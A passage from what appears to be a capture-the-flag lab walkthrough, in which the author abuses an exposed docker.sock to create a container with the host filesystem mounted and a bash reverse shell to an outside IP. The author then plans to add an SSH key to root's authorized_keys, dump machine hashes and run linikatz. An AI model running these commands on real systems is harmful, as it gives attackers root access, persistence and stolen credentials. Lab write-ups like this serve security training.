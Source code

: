 
i will create a container with reverse shell command to abuse docker.sock

```bash
cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.8.1.167/80 0>&1'\\\"\"]"

curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"alpine:latest\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=peterpwn_root


curl --unix-socket /var/run/docker.sock -s -X POST http://localhost/containers/bf924e6558a15e3cd1aea7b7ee27913eeb9e4eef9a70954d17ab121bb732df90/start
```

after the containers, we can have a root reveseshell. And then, i will put my key into `/root/.ssh/authorized_keys` and dump machine hash

![](<vigilant(chain)(hard)/walkthrough_20240416210812025.png>)

![](<vigilant(chain)(hard)/walkthrough_20240417181112880.png>)

i will use linikatz, we really need some new cred
